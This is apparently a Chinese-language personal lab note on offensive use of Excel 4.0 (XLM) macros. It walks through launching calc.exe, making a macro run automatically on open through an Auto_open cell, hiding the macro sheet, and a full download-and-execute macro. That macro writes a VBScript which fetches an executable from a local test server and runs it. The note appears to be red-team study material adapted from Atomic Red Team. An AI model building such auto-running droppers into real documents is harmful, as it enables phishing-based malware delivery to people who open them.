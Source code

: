 ```yaml
---
date: 2024-04-22
---
```


# Excel4.0宏

> [利用Excel 4.0宏执行任意命令 | AdminTony's Blog](http://www.admintony.com/Excel-4-0-macros.html)
>
> [atomic-red-team/atomics/T1204.002/T1204.002.md at 2dcdc27df73cc343d308e7c0afa37f2d77aa02e1 · Ayusummer/atomic-red-team (github.com)](https://github.com/Ayusummer/atomic-red-team/blob/2dcdc27df73cc343d308e7c0afa37f2d77aa02e1/atomics/T1204.002/T1204.002.md#atomic-test-6---excel-4-macro)
>
> ---
>
> [使用 Excel 4.0 宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/office/使用-excel-4-0-宏-ba8924d4-e157-4bb2-8d76-2c07ff02e0b8)
>
> ---
>
> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

Excel 4.0 宏是一种在 Microsoft Excel 中使用的宏语言，它是 Excel 中较早期版本的一部分，通常用于自动化和批处理任务。Excel 4.0 宏提供了一组命令和函数，可以执行各种操作，包括计算、数据操作、格式设置等。

Microsoft很早就使用VBA宏（Visual Basic for Applications）来代替Excel 4.0宏技术，这导致Excel 4.0宏并不为大众所熟知。并且Excel 4.0宏存放在Excel 97 - 2003格式（.xls）文件中。

默认情况下 office 是禁用宏的, 要启用 Excel4.0宏支持需要

`打开 Excel -> 文件 -> 选项 -> 信任中心 -> 信任中心设置 -> 宏设置 -> 启用所有宏`

![image-20240422170036218](http://cdn.ayusummer233.top/DailyNotes/202404221700959.png)

创建一个新的 Excel 工作簿, `右键 Sheet1 -> 插入 -> MS Excel 4.0 宏表`

![image-20240422170503721](http://cdn.ayusummer233.top/DailyNotes/202404221706938.png)

![image-20240422170635598](http://cdn.ayusummer233.top/DailyNotes/202404221706681.png)

`确定` 后可以看到多了一张名为 `宏1` 的表, 可以在其中输入 XLM宏, 然后可以单击任何单元格并在此单元格和竖直下面的单元格中输入宏公式

![image-20240422170717659](http://cdn.ayusummer233.top/DailyNotes/202404221707820.png)

XLM 宏有如下特征:

- **函数式宏**：XLM 宏通常以函数的形式出现在 Excel 单元格中。这些函数以等号（=）开头，后面跟随一系列的参数和函数名。例如：`=HALT()`。
- **内置函数**：XLM 提供了一系列内置函数，用于执行各种操作，如文件操作、计算、格式设置等。例如：`HALT()` 用于停止执行宏，`GOTO()` 用于跳转到指定位置等。
- **参数**：XLM 函数可以带有参数，用于指定函数执行时所需的信息。参数可以是常量、单元格引用或者其他函数的返回值。
- **宏表**：除了存储在单元格中，XLM 宏还可以存储在 Excel 的宏表中。宏表是一种特殊的工作表，其中的内容被解释为宏代码而不是普通的数据。你可以在 Excel 中创建宏表，并在其中编写 XLM 宏代码。
- **简单的语法**：相比于 VBA（Visual Basic for Applications），XLM 的语法相对简单。它没有像 VBA 那样的完整的编程语言功能，但足以完成一些基本的自动化任务。

例如写一个调起计算器的 XLM:

```
=EXEC("calc.exe")
=HALT()
```

然后可以右键宏起始单元格选择 `执行`

![image-20240422173251380](http://cdn.ayusummer233.top/DailyNotes/202404221732515.png)

![image-20240422173504260](http://cdn.ayusummer233.top/DailyNotes/202404221735383.png)

![image-20240422173531256](http://cdn.ayusummer233.top/DailyNotes/202404221735362.png)

---

## 自动执行

如果希望在打开工作簿时自动运行宏（类似于VBA宏的 `Sub AutoOpen()`）可以将宏的第一个单元格重命名为`Auto_open`

![image-20240422174158340](http://cdn.ayusummer233.top/DailyNotes/202404221741405.png)

保存时选择 `Excel 97-2003 工作簿(*.xls)`

![image-20240422174251880](http://cdn.ayusummer233.top/DailyNotes/202404221742953.png)

再打开这个文件时会自动执行宏

![image-20240422174334700](http://cdn.ayusummer233.top/DailyNotes/202404221743787.png)

---

## 隐藏表单

![image-20240422174355987](http://cdn.ayusummer233.top/DailyNotes/202404221743058.png)

![image-20240422174404534](http://cdn.ayusummer233.top/DailyNotes/202404221744642.png)

即便隐藏了, 设置自动执行的宏也会自动执行

![image-20240422174438706](http://cdn.ayusummer233.top/DailyNotes/202404221744835.png)

---

## 加载 shellcode

> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

---

## 下载与执行远程文件

虽然 XLM 不支持网络操作和文件下载, 但是可以通过新建并写入一个 VBScript 并运行来实现下载与运行

例如

```
Win10Pro
procexp.exe
atomic_redteam_x4m_exec.vbs
=IF(ISNUMBER(SEARCH("64",GET.WORKSPACE(1))), GOTO(A5),)
=FOPEN("C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"", 3)
=FWRITELN(A5, "url = ""http://127.0.0.1:8000/download/msedge.exe""")
=FWRITELN(A5, "")
=FWRITELN(A5, "Set winHttp = CreateObject(""WinHTTP.WinHTTPrequest.5.1"")")
=FWRITELN(A5, "winHttp.Open ""GET"", url, False")
=FWRITELN(A5, "winHttp.Send")
=FWRITELN(A5, "If winHttp.Status = 200 Then")
=FWRITELN(A5, "Set oStream = CreateObject(""ADODB.Stream"")")
=FWRITELN(A5, "oStream.Open")
=FWRITELN(A5, "oStream.Type = 1")
=FWRITELN(A5, "oStream.Write winHttp.responseBody")
=FWRITELN(A5, "oStream.SaveToFile ""C:\Users\"&A1&"\AppData\Local\Temp\"&A2&""", 2")
=FWRITELN(A5, "oStream.Close")
=FWRITELN(A5, "End If")
=FCLOSE(A5)
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"")
=WAIT(NOW()+"00:00:05")
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A2&"")
=HALT()
```

![image-20240422190714511](http://cdn.ayusummer233.top/DailyNotes/202404221907695.png)

![image-20240422191356514](http://cdn.ayusummer233.top/DailyNotes/202404221913585.png)

![image-20240422191427234](http://cdn.ayusummer233.top/DailyNotes/202404221914321.png)

---

## 相关链接

- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---















